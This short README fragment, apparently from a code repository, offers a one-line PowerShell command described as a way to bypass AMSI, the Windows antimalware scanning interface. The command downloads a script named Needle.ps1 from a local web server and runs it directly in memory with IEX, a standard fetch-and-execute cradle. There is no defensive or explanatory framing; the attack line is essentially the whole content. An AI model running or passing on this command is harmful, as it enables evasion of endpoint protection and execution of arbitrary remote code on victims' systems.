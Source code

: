 Greetings
----------

![alt text](<2024-06-26 08_25_55-Select Windows PowerShell.png>)

bypass AMSI with oneliner :  

IEX(New-Object Net.WebClient).downloadString('http://127.0.0.1:8080/Needle.ps1')